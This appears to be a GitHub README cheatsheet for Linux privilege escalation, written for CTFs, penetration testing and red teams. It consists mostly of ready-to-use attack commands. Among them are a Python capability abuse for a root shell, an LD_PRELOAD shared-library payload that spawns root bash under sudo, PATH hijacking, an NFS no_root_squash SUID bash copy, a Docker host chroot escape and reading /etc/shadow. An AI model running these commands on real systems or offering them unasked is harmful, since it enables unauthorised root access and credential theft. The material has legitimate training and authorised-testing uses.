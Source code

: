 # linux-privilege-escalation-cheatsheet
This is a practical cheatsheet for Linux Privilege Escalation, ordered by priority.  
It is intended for Capture The Flag (CTF) exercises, penetration testing, and red team operations.  
Each section includes examples and ready-to-use commands.

General Info & Enumeration
Always perform this first: identify running processes, open ports, users, and interesting files to find escalation opportunities.

Essential commands:
whoami
id
hostname
uname -a
ps aux
netstat -tulnp
ss -tulnp
env
find / -name "*.log" 2>/dev/null
find / -writable -type d 2>/dev/null
cat /etc/crontab
ls -la /etc/cron.*
ls -la /var/spool/cron
ls -la /home
ls -la /tmp
sudo -l

--------------------------------------------------------------------------------------

# **SUDO**
Allows executing commands with elevated privileges if permitted in the sudoers file.  

sudo -l
If a binary is listed, search it on GTFOBins.

--------------------------------------------------------------------------------------

# **SUID (Set User ID)**
Binaries that run with root privileges even when executed by unprivileged users.

find / -perm -4000 -type f 2>/dev/null
find / -perm /4000 2>/dev/null
Check each binary on GTFOBins for known exploits.

--------------------------------------------------------------------------------------

# **Capabilities**
Check if regular binaries have special capabilities like cap_setuid, which allow privilege escalation.

getcap -r / 2>/dev/null

If cap_setuid+ep is found on binaries like Python:
python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'

--------------------------------------------------------------------------------------

# **LD_PRELOAD / LD_LIBRARY_PATH**
Advanced technique using environment variables and sudo to run arbitrary code.

Check if LD_PRELOAD is allowed:
sudo -l

Create this C code:  
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void _init() {
   unsetenv("LD_PRELOAD");
   setgid(0);
   setuid(0);
   system("/bin/bash");
}

Compile it:
gcc -fPIC -shared -o /tmp/lib.so shell.c -nostartfiles

Execute an allowed command:
sudo LD_PRELOAD=/tmp/lib.so <command>

Example:
sudo LD_PRELOAD=/tmp/lib.so find

--------------------------------------------------------------------------------------

# **Cron Jobs**
Scheduled scripts executed by root. If editable, they are exploitable.

cat /etc/crontab
ls -la /etc/cron.*
ls -la /var/spool/cron

Check if any scheduled scripts are writable or vulnerable to PATH hijacking.

--------------------------------------------------------------------------------------

# **Weak File Permissions**
Critical files like /etc/shadow or /etc/passwd with unsafe permissions may allow hash reading or user modification.

find / -writable -type f -user root 2>/dev/null
cat /etc/shadow
cat /etc/passwd

--------------------------------------------------------------------------------------

# **PATH Hijacking**
If a script executed by root uses commands without absolute paths, you can hijack the PATH to run your own version.

echo "/bin/bash" > cp
chmod +x cp
export PATH=.:$PATH
./script.sh

--------------------------------------------------------------------------------------

# **NFS Misconfiguration**
If an NFS share is mounted with no_root_squash, you can upload SUID binaries and execute them remotely.

showmount -e <IP>
mount -t nfs <IP>:/home/backup /mnt/backup
cp /bin/bash /mnt/backup/rootbash
chmod +s /mnt/backup/rootbash

--------------------------------------------------------------------------------------

# **Docker Misconfiguration**
If the user is in the docker group, they can access the host by running privileged containers.

id  # Check if you're in the docker group
docker run -v /:/mnt --rm -it alpine chroot /mnt sh

--------------------------------------------------------------------------------------

# **Kernel Exploits**
Last resort. Use known exploits against vulnerable kernels (e.g., Dirty COW, OverlayFS).

uname -a
searchsploit linux kernel










